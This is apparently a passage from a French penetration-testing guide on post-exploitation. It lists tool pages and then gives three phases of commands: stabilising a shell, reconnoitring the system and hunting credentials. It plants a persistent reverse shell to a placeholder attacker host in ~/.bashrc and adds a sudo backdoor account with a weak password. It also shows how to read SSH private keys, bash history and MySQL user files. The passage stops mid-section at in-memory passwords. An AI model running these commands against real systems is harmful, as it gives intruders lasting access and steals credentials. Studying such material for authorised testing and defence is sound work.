 ### Tools-Reconnaissance/
Outils spécialisés de post-exploitation
- **Meterpreter_Advanced.md** - Techniques avancées Meterpreter
- **PowerShell_Empire.md** - Post-exploitation PowerShell
- **Cobalt_Strike.md** - Framework commercial avancé
- **BloodHound.md** - Cartographie Active Directory

## 🎯 Méthodologie Post-Exploitation

### Phase 1 : Stabilisation de l'Accès
```bash
# 1. Améliorer le shell initial
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z puis:
stty raw -echo; fg

# 2. Établir une backdoor
# Reverse shell persistant
echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> ~/.bashrc

# 3. Créer un utilisateur de backup (si root)
useradd -m -s /bin/bash hacker
echo "hacker:password123" | chpasswd
usermod -aG sudo hacker
```

### Phase 2 : Reconnaissance du Système
```bash
# 1. Informations système
uname -a                    # Kernel version
cat /etc/os-release        # OS version
whoami && id               # Current user and groups
ps aux                     # Running processes
netstat -tulpn            # Network connections

# 2. Utilisateurs et permissions
cat /etc/passwd           # All users
cat /etc/group            # All groups
sudo -l                   # Sudo permissions
find / -perm -4000 2>/dev/null  # SUID binaries

# 3. Services et démons
systemctl list-unit-files --state=enabled  # Enabled services
crontab -l                # Cron jobs for current user
cat /etc/crontab          # System cron jobs
```

### Phase 3 : Recherche de Credentials
```bash
# 1. Fichiers de configuration
find / -name "*.conf" 2>/dev/null | xargs grep -l "pass\|pwd\|key" 2>/dev/null
find / -name "config.*" 2>/dev/null
cat ~/.bash_history       # Command history
cat ~/.ssh/id_rsa         # SSH private keys

# 2. Bases de données locales
find / -name "*.db" -o -name "*.sqlite" 2>/dev/null
mysql -u root -p          # Try MySQL access
cat /var/lib/mysql/mysql/user.MYD  # MySQL users

# 3. Mots de passe en mémoire
```